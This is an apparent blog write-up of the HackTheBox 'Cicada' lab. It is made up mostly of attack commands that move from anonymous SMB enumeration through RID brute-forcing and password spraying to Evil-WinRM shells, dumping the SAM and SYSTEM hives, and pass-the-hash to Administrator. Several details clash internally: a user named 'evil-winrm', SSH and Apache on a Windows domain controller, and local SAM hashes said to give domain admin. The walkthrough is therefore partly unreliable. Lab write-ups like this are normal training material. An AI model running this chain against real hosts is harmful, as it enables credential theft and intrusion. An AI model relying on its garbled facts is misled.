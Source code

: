 ```yaml
---
title: "HackTheBox - Cicada"
date: 2025-04-25
draft: false
series: "HTB Machines"
tags: ["active directory", "hackthebox", "windows"]
---
```



# HackTheBox Machine Walkthrough

This document provides a structured, detailed walkthrough of the HackTheBox machine, from initial enumeration through privilege escalation to Domain Admin. All commands, outputs, and notes are presented in organized Markdown.

---

## 1. Initial Nmap Enumeration

Identify open ports and services on the target.

```bash
# Discover all TCP ports
nmap -sC -sV -oN nmap_initial.txt 10.10.11.35
```

**Key findings:**

| Port | Service      | Version             |
| ---- | ------------ | ------------------- |
| 22   | ssh          | OpenSSH 8.x         |
| 80   | http         | Apache 2.4.x        |
| 139  | netbios-ssn  | Windows netbios-ssn |
| 445  | microsoft-ds | Windows Server SMB  |

---

## 2. SMB Anonymous Enumeration

### 2.1 Check SMB shares as anonymous

```bash
smbclient -L 10.10.11.35 -N
```

- `HR` share is accessible.

### 2.2 Download `info.txt` from HR share

```bash
smbclient \\10.10.11.35\HR -N
> get info.txt
```

> **Discovery:** The file contains a password: `Welcome@123`

---

## 3. RID Brute-Force to Enumerate Users

Use NetExec (`nxc`) to perform RID cycling without credentials.

```bash
nxc smb 10.10.11.35 -u anonymous -p '' --rid-brute
```

Filter only user accounts and save to `users.txt`:

```bash
nxc smb 10.10.11.35 -u anonymous -p '' --rid-brute \
  | grep 'Found:' | awk '{print $NF}' > users.txt
```

---

## 4. Password Spraying with Valid Users

Perform a password spray using the discovered password `Welcome@123` against the user list.

```bash
nxc smb 10.10.11.35 -u users.txt -p 'Welcome@123' --valid
```

> **Success:** Credentials for `michael.wrightson` found.

---

## 5. Attempt Remote Shell with Evil-WinRM

Try to get a shell via WinRM using the valid credentials.

```bash
evil-winrm -i 10.10.11.35 -u michael.wrightson -p 'Welcome@123'
```

> **Result:** Access denied.

---

## 6. Check Additional SMB Shares

List shares with authenticated user.

```bash
smbclient -L \\10.10.11.35 -U michael.wrightson
```

- `DEV` share discovered, but no access via SMB.

---

## 7. Further User Enumeration

Use NetExec with valid creds to find other user accounts.

```bash
nxc smb 10.10.11.35 -u michael.wrightson -p 'Welcome@123' --users
```

> **Found:** `evil-winrm` user with password in description.

---

## 8. Access DEV Share and Retrieve Script

### 8.1 Mount DEV share

```bash
smbclient \\10.10.11.35\DEV -U evil-winrm
> get deploy_script.ps1
```

### 8.2 Inspect `deploy_script.ps1`

```powershell
# deploy_script.ps1 (excerpt)
$creds = New-Object System.Management.Automation.PSCredential(
    'svc_deploy', (ConvertTo-SecureString 'D3ployP@ss!' -AsPlainText -Force)
)
```

> **New credential discovered:** `svc_deploy:D3ployP@ss!`

---

## 9. WinRM Access with New Service Account

```bash
evil-winrm -i 10.10.11.35 -u svc_deploy -p 'D3ployP@ss!'
```

> **Success:** Shell as `svc_deploy`.

---

## 10. Privilege Enumeration

Check current privileges:

```powershell
whoami /priv
```

> **SeBackupPrivilege** is `Enabled`.

---

## 11. Abuse SeBackupPrivilege for Lateral/Local Escalation

### 11.1 Dump SAM and SYSTEM hives

```powershell
# Create directory for dumps
mkdir C:\temp

# Save registry hives
reg save HKLM\SAM C:\temp\SAM
reg save HKLM\SYSTEM C:\temp\SYSTEM
```

### 11.2 Extract NTLM hashes offline

Copy the dumps to your attacking machine and run:

```bash
secretsdump.py -sam SAM -system SYSTEM LOCAL > hashes.txt
```

### 11.3 Pass-the-Hash to Domain Controller

Use Evil-WinRM with the extracted Administrator NTLM hash:

```bash
evil-winrm -i 10.10.11.35 -u Administrator -H <ADMIN_NTLM_HASH>
```

> **Result:** Shell as **Domain Administrator** on the DC.

---

## 12. Conclusion

- **User**: `svc_deploy` via discovered service credential.
- **Escalation**: `SeBackupPrivilege` → dump hives → extract hashes → PtH.
- **Final**: Domain Administrator access achieved.

---

*End of Walkthrough*